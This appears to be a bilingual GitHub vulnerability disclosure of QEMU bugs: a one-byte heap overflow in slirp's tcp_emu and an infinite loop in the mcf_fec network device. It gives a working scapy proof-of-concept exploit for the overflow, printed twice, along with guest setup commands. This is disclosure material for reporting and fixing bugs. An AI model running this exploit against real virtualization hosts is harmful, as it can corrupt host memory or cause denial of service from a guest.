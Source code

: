 # 0x0000

在QEMU 4.10 中的 tcp_emu中，存在 OOB:

```c
int tcp_emu(struct socket *so, struct mbuf *m)
{
..........
    case EMU_REALAUDIO:
..........
        bptr = m->m_data;
        while (bptr < m->m_data + m->m_len) {
.................        
            switch (ra) {
..................
                lport = (((uint8_t *)bptr)[0] << 8) + ((uint8_t *)bptr)[1];
....................
                *(uint8_t *)bptr++ = (p >> 8) & 0xff;
                *(uint8_t *)bptr = p & 0xff;
            }
        }
    
}
```

其中 bptr[1] 和 bptr++ 会使得 bptr == m->m_data+m->m_len,造成 OOB

```
AA............. ra=0	
bptr+0	0x50	ra=1	
bptr+1	0x4e	ra=2	
bptr+2	A   	ra=3	
bptr+3	A   	ra=4	
bptr+4	A   	ra=5	
bptr+5	AAAA	ra=6	
bptr+9	27  	OOB	


```

poc

```python
#!/usr/bin/python3

import os
import time
from scapy.all import *

target_ip = '10.0.2.2'
target_port = 7070

def start_tcp(target_ip,target_port,str_to_send):
    global sport,s_seq,d_seq
    try:
        ans = sr1(IP(dst=target_ip)/TCP(dport=target_port,sport=RandShort(),seq=RandInt(),flags=0x2),verbose=False)
        sport = ans[TCP].dport
        s_seq = ans[TCP].ack
        d_seq = ans[TCP].seq+1
        
        send(IP(dst=target_ip)/TCP(dport=target_port,sport=sport,ack=d_seq,seq=s_seq,flags=0x10),verbose=False)

        send(IP(dst=target_ip)/TCP(dport=target_port,sport=sport,ack=d_seq,seq=s_seq,flags=0x18)/str_to_send,verbose=False)
        print(ans[TCP])
    except Exception as e:
        print(e)

if __name__ == '__main__':
    buf = ['R' for n in range(2200)];
    buf_len = len(buf);
    
    buf[buf_len-10]= chr(0x50)
    buf[buf_len-9] = chr(0x4e)
    buf[buf_len-8] = chr(0x41)
    buf[buf_len-7] = chr(0x00)
    buf[buf_len-1] = chr(27)
    start_tcp(target_ip,target_port,"".join(buf))
```

### En

qemu version: 4.1.0,In slirp source code.

```c
int tcp_emu(struct socket *so, struct mbuf *m){
............
case EMU_REALAUDIO:
............
    while (bptr < m->m_data + m->m_len) {
        case 6:
............
            lport = (((uint8_t *)bptr)[0] << 8) + ((uint8_t *)bptr)[1];
............
            *(uint8_t *)bptr++ = (p >> 8) & 0xff;
            *(uint8_t *)bptr = p & 0xff;
............
    }
............
............
}
```

bptr)[1] and bptr++ ,may make bptr == m->m_data + m->m_len,and cause OOB（out of bounds.）

poc:
```python
#!/usr/bin/python3

import os
import time
from scapy.all import *

target_ip = '10.0.2.2'
target_port = 7070

def start_tcp(target_ip,target_port,str_to_send):
    global sport,s_seq,d_seq
    try:
        ans = sr1(IP(dst=target_ip)/TCP(dport=target_port,sport=RandShort(),seq=RandInt(),flags=0x2),verbose=False)
        sport = ans[TCP].dport
        s_seq = ans[TCP].ack
        d_seq = ans[TCP].seq+1
        
        send(IP(dst=target_ip)/TCP(dport=target_port,sport=sport,ack=d_seq,seq=s_seq,flags=0x10),verbose=False)

        send(IP(dst=target_ip)/TCP(dport=target_port,sport=sport,ack=d_seq,seq=s_seq,flags=0x18)/str_to_send,verbose=False)
        print(ans[TCP])
    except Exception as e:
        print(e)

if __name__ == '__main__':
    buf = ['R' for n in range(2200)];
    buf_len = len(buf);
    
    buf[buf_len-10]= chr(0x50)
    buf[buf_len-9] = chr(0x4e)
    buf[buf_len-8] = chr(0x41)
    buf[buf_len-7] = chr(0x00)
    buf[buf_len-1] = chr(27)
    start_tcp(target_ip,target_port,"".join(buf))
```

In host OS run:

```shell
nc -l -p 7070 
```

In guest OS run:

```shell
# iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 10.0.2.2 -j DROP # Because we will use Python to construct tcp packets, this will prevent the kernel from sending rst packets.
# ip link set ens3 mtu 3000 # When the sending size is larger than the default mtu packet, the slipr_input function allocates space from the heap, and then we can overflow one byte of the heap space
# ./poc
```

This will cause a byte heap overflow.

I have reported it to QEMU, and then QEMU reported it to Slirp. can I get a CVE number?

### URL

https://bugs.launchpad.net/qemu/+bug/1858415

# 0x0001

QEMU emulator version 4.2.94

mcf_fec_have_receive_space与函数中mcf_fec_receive

当用户通过内核修改修改：s->emrbr 为0时，可导致无限循环


```c
static void mcf_fec_write(void *opaque, hwaddr addr,
                          uint64_t value, unsigned size)
{
    mcf_fec_state *s = (mcf_fec_state *)opaque;
    switch (addr & 0x3ff) {
.........................................
    case 0x188:
        s->emrbr = value > 0 ? value & 0x7F0 : 0x7F0;
        break;
.........................................
    }
    mcf_fec_update(s);
}
```

### En

QEMU emulator version 4.2.94

In the mcf_fec_write function, when the user modifies s->emrbr to 0, it can cause the mcf_fec_have_receive_space and mcf_fec_receive functions to infinite loop

```c
static void mcf_fec_write(void *opaque, hwaddr addr,
                          uint64_t value, unsigned size)
{
    mcf_fec_state *s = (mcf_fec_state *)opaque;
    switch (addr & 0x3ff) {
.........................................
    case 0x188:
        s->emrbr = value > 0 ? value & 0x7F0 : 0x7F0;
        break;
.........................................
    }
    mcf_fec_update(s);
}

static int mcf_fec_have_receive_space(mcf_fec_state *s, size_t want)
{
    mcf_fec_bd bd;
    uint32_t addr;

    /* Walk descriptor list to determine if we have enough buffer */
    addr = s->rx_descriptor;
    while (want > 0) {
............................................
        if (want < s->emrbr) {
            return 1;
        }
        want -= s->emrbr;
............................................
    }
    return 0;
}

static ssize_t mcf_fec_receive(NetClientState *nc, const uint8_t *buf, size_t size)
{
..................................................
    while (size > 0) {
..................................................
        buf_len = (size <= s->emrbr) ? size: s->emrbr;
..................................................
        size -= buf_len;
 ..................................................
 }
..................................................
}

```

0x002



# bug

https://bugs.launchpad.net/qemu/+bug/1882065
